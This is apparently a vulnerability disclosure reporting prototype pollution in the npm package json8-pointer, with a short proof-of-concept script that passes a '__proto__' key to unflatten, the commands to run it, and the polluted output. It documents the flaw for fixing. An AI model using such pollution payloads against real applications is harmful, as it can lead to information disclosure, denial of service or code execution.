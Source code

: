 # Description

`json8-pointer` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var json8Pointer = require("json8-pointer")
json8Pointer.unflatten({"": {},"/firstName": "John", "/__proto__/polluted": "Yes! Its Polluted"});
console.log({}.polluted); 
```

2. Execute the following commands in another terminal:

```bash
npm i json8-pointer # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Yes! Its Polluted
```
